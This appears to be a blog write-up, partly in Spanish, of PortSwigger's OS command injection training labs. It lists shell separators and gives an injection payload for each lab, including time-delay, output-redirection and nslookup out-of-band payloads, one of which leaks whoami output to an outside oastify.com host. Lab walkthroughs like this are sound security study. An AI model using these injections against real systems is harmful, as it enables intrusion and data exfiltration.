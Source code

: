 ```yaml
---
layout: single
title: OS Command Injection - PortSwigger
excerpt: "All OS Command Injection labs of PortSwigger."
date: 2025-09-24
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - OS Command Injection
---
```



## Identification

```
 &&
 &
 ||
 |
 ;
 `
 '
 "
 0x0a
 \n
```

## Inyección de comandos, caso simple || OS command injection, simple case

![](/img2/Pasted%20image%2020250924172159.png)

> By corrupting the query, we see that we are within the context of command execution.

![](/img2/Pasted%20image%2020250924172249.png)

> We concatenate our command using a ;. The underlying command would look like this:

```bash
sh -c bash /home/peter-GPnOhF/stockreport.sh 1 1;whoami
```

- Injection 

```bash
;whoami
```
## Inyección ciega con retrasos temporales || Blind OS command injection with time delays

![](/img2/Pasted%20image%2020250924180005.png)

> By using backticks, we execute a command to check if it is vulnerable.

- Injection

```bash
`sleep 10`
```

## Inyección ciega con redirección de salida || Blind OS command injection with output redirection

![](/img2/Pasted%20image%2020250924183354.png)

> First, we detect command injection using a sleep.

![](/img2/Pasted%20image%2020250924183137.png)

![](/img2/Pasted%20image%2020250924183152.png)

> We send the output to a file inside the images directory `/var/www/images/`.

- Injection

```bash
`whoami` >> /var/www/images/test.txt
```

## Inyección ciega con interacción OOB || Blind OS command injection with out-of-band interaction

![](/img2/Pasted%20image%2020250924184546.png)

![](/img2/Pasted%20image%2020250924184559.png)

> In this case, we cannot force a delay in the response; however, we can detect the vulnerability via a DNS request.

- Injection

```bash
`nslookup 6ahsp7n9bzragcunrr7b18q6gxmpafy4.oastify.com`
```

## Inyección ciega con exfiltración vía interacción OOB || Blind OS command injection with out-of-band data exfiltration

![](/img2/Pasted%20image%2020250924184849.png)

![](/img2/Pasted%20image%2020250924184859.png)

> Just like the previous lab, we detect the vulnerability through a DNS request.

![](/img2/Pasted%20image%2020250924185022.png)

![](/img2/Pasted%20image%2020250924185053.png)

> By using the $() operator in Bash, we make a request to our domain using the output of the whoami command as a subdomain.

- Injección

```bash
`nslookup $(whoami).c5iykdif65mgbiptmx2hwelcb3hw5mtb.oastify.com`
```